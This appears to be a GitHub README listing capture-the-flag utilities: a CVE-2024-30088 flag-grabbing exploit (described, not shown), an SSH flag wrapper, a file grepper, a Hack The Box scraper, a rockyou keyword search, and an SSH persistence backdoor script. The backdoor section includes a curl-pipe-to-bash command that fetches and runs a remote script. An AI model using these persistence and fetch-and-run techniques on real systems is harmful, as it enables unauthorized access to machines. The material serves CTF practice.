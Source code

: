 # CTF

## CVE-2024-30088_flags.cpp - Exploit for CVE-2024-30088 to Capture Flags

This is a modified exploit for **CVE-2024-30088**, designed to capture flags from a Windows system by exploiting a recent vulnerability. At the time, the exploit was effective, but it is expected to be patched on most up-to-date systems. It was fun while it lasted.


## flagssh.sh - SSH Wrapper for Snatching Flags and Initial Enumeration

`flagssh.sh` is an SSH wrapper script to automate flag retrieval during SSH authentication, targeting both user and root flags on remote systems. In addition to capturing flags, it has great potential for adding more functionality to assist with initial enumeration, such as checking user permissions, sudo privileges, and transferring necessary tools for further exploitation.

#### Features:
- Automates SSH login and flag retrieval (user.txt, root.txt).
- Supports both password-based and key-based SSH authentication.
- Provides a flexible framework for adding additional enumeration tasks during the initial foothold phase.

#### Usage:
```bash
flagssh.sh <username>@<hostname> [<password_or_ssh_key>]
```

## grepper.sh - Targeted Search for Hidden Files in CTF Challenges

`grepper.sh` is a tool for (CTF) challenges where critical information, like passwords or flags, is hidden deep within the filesystem. The tool was created after encountering a CTF box with a hidden password buried in a `.log.gz` file, which was frustrating to locate manually. This script automates the search process by grepping for specific keywords in common directories and compressed files, making it easier to find those elusive clues. While it's a resource intensive tool, it is often a last resort after traditional enumeration techniques have failed.

#### Features:
- Searches for keywords in common system directories and within `.gz` compressed files.
- Designed to help in CTF scenarios where important files or logs are buried deep within the filesystem.
- Provides quick searches in common directories like `/opt` and `/var`.
- Automatically generates keywords based on system usernames and hostnames.
- Supports verbose output and searching binary files.

#### Usage:
```bash
grepper.sh [--all] [--path=dir1] [--path=dir2] ... [--verbose] [--auto] [--quick] [--gzip] [keyword1 [keyword2 ...]]
```

- `--all`: Include binary files in the search.
- `--path=dir`: Specify one or more directories to search.
- `--verbose`: Print detailed command output.
- `--auto`: Automatically generate keywords from system users and hostnames.
- `--quick`: Quickly search common directories `/opt` and `/var`.
- `--gzip`: Enable searching within `.gz` compressed files.


## htb-usercontent.py - Fetch Hack The Box User-Generated Content

`htb-usercontent.py` is a script that interacts with the Hack The Box (HTB) API to retrieve all content generated by a specific user. This includes details about machines, challenges, and writeups the user has created. The tool is useful for OSINT allowing to quickly gain insights into a user's contributions on the HTB platform, such as which boxes they’ve created.


#### Usage:
```bash
htb-usercontent.py <user_id> [--proxy] [--ignore-ssl] [--machines] [--challenges] [--writeups]
```

- `<user_id>`: The HTB user ID you want to query.
- `--proxy`: Route requests through a proxy (useful for debugging).
- `--ignore-ssl`: Ignore SSL certificate verification.
- `--machines`: Print only information about machines created by the user.
- `--challenges`: Print only information about challenges created by the user.
- `--writeups`: Print only information about writeups authored by the user.


## ssh-backdoor.sh - Quick and Easy SSH Persistence

`ssh-backdoor.sh` is my absolute favourite script. It simplifies the process of setting up SSH persistence by adding public keys to the target's `~/.ssh/authorized_keys` file. This script ensures a secure and reliable backdoor for remote access if SSH login is available on the target machine. It performs the necessary directory and file setup, including backing up existing `authorized_keys`, setting appropriate permissions, and appending keys to the file.

The script is easy to curl into bash for fast execution and clean persistence.


#### Usage:
```bash
curl -sSL <script_url> | bash
```

## quickpass.py - Search for Passwords in rockyou.txt Based on Keywords

`quickpass.py` is a simple yet effective script that searches the `rockyou.txt` wordlist for passwords related to specific keywords. It is particularly useful for boxes, where content creators sometimes use passwords that have some relation to the name of the box, service, or username. The script also supports searching in 1337-speak format for additional variations of the keywords.

#### Features:
- **Keyword-based password search**: Searches for passwords in `rockyou.txt` that match specific keywords, which can be related to the box name or service.
- **Leet-speak support**: Optionally convert the keyword into leet-speak (e.g., `h4ck3r`) and search for its variations.
- **Write results to file**: Saves matching passwords into `quickwins.txt` for easy access.

#### Usage:
```bash
quickpass.py <keywords> [--leet]
```
